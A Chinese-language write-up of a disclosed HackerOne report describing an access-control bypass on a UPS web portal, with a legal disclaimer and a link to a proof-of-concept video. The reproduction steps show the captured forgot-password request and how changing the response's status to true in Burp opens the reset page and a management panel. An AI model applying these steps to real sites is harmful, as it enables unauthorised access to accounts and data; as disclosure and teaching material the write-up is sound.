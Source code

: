 
https://hackerone.com/reports/1539426


声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 背景
nayefhamouda于2022年4月份提交的这个权限相关的漏洞:
白帽小哥发现可以越权访问团队管理面板;

## 复现步骤
1.登陆 connectnb.ups.com：

2.进入`https://connectnb.ups.com/Layout/forgotPassword`，输入任何电子邮件地址，拦截请求:
```
POST /api/Account/SendTempPassword/?userName=admin@admin.com HTTP/2
Host: connectnb.ups.com
Cookie: __RequestVerificationToken=ZSZXAd3wrj6GSWF1seZAIWIUPQiK4spv-xbaxR_3HxFgJnaSGKr7xXlb9iHYEUQVloknAoTtK5DmWtjdP7yVT7MQ6Z2JW3d5kK2qoxDAbas1
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="99", "Google Chrome";v="99"
Accept: application/json, text/plain, */*
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Origin: https://connectnb.ups.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,ar;q=0.7
```
3.在burp里面，拦截此请求的响应并将其中的status更改为 true
```
HTTP/2 200 OK
Cache-Control: no-cache,no-cache,no-store
Pragma: no-cache,no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Server: 
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Referrer-Policy: no-referrer
Strict-Transport-Security: max-age=31536000; includeSubDomains;preload
X-Frame-Options: DENY
X-Ua-Compatible: IE=Edge
Content-Security-Policy: script-src 'self'; object-src 'self'; frame-ancestors 'none'
Expect-Ct: enforce, max-age=7776000, report-uri='https://connectnb.ups.com/'
Access-Control-Allow-Headers: Accept, Content-Type, Origin
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Date: Wed, 13 Apr 2022 05:09:59 GMT
Content-Length: 89

{"status":true,"errorMessage":"Username does not exist. Please enter correct Username."}
```
4.然后，转到这个路径/resetPassword。您会注意到这个页面已经打开，没有问题:
![图](../../images/broken.png)

发现可以越权查看用户或报告信息了;

这小哥挺有才华的,一边poc的时候还一边唱着rap   =====》==
链接: https://pan.baidu.com/s/1dMwwD3oU0Ahv5G3e1oJE9w  密码: 6j3v


